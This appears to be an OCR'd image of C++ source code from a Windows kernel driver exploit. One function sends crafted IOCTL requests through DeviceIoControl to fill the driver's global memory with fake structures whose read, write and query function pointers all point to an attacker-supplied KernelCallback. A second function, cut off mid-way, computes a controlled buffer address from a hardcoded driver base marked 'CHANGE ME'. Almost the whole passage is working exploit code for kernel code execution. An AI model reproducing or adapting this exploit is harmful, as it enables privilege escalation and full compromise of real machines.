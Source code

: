 ```C++

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

```